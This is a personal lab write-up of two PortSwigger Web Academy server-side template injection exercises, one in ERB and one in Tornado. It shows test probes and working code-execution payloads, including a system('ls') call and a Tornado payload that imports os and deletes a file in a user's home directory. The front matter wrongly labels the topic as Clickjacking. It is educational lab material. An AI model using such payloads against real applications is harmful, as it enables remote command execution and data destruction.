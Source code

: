 ```yaml
---
title: (Portswigger/WebAcademy) - Server-Side Template Injection
 vulnerabilities
author:
  name: eng4ge
  link: https://github.com/an9k0r
date: 2023-01-15 09:00:00 +0200
categories: [Web Application, Clickjacking vulnerabilities]
tags: [Notes, Server-Side Template Injection, SSTI, Portswigger]
math: true
mermaid: true
image:
  src: 
  width: 694
  height: 515
  alt: image alternative text
---
```

# Intro
This post/writeup is all about the Clickjacking Vulnerabilities.

I'll be using primarily [Portswigger Web Academy](https://portswigger.net/web-security/server-side-template-injection) Labs, but i do intent do throw other labs and writeups here as well.

To learn more on the topic, please visit the article linked above at Portswigger's.
## TOC
- [Intro](#intro)
  - [TOC](#toc)
- [Basic server-side template injection](#basic-server-side-template-injection)
- [Basic server-side template injection (code context)](#basic-server-side-template-injection-code-context)

# Basic server-side template injection
> This lab is vulnerable to server-side template injection due to the unsafe construction of an ERB template.
> 
> To solve the lab, review the ERB documentation to find out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

When we start the lab and open a product, we would see following request which is obviously being reflected:

![picture 0](/assets/images/2500c49399826a11b6d4c700819461590b012046c89ac6f3c4b5bda78991cc5c.png)  

After checking the documentation for ERB templating (Ruby), this synthax should return `49`: ==> `<%= 7*7 %>`.

![picture 1](/assets/images/0643f790d7937176928eeabdfa06baa1b79f24fc6c03b6380f8f8939e127b6bd.png)  

As seen above, we do get `49` reflected. Now we need to delete a file `morale.txt`.

This synthax runs commands on the system:

```html
<%= system("ls -la /home") %>
```

# Basic server-side template injection (code context)
> This lab is vulnerable to server-side template injection due to the way it unsafely uses a Tornado template. To solve the lab, review the Tornado documentation to discover how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.
> 
> You can log in to your own account using the following credentials: wiener:peter

Let us log in:

![picture 2](/assets/images/28027ea4356a2d9a8da2c1e1eaf9e28c27215f08b5402bd05ce1017c9b76fd4f.png)  

```html
[...]
blog-post-author-display=<%=+7*7+=>&csrf=kLGizM6pptgkDClzV9yZQKn4Q2OVfEb8
```

When i've ran the request above, error occured when sending comming in a blog post, but when i changed the parameter to `blog-post-author-display=7*7`, the `49` is shown instead of the `Name`:

![picture 3](/assets/images/83edb80f3d7913010e642e94501c2f163b80afafc1f128120e633d5663761dd0.png)  

This one was more tricky to exploit as os lib is not imported and we have to do it first. This is the final payload:

```html
blog-post-author-display=user.name}}{%25+import+os+%25}{{os.system('rm%20/home/carlos/morale.txt')
```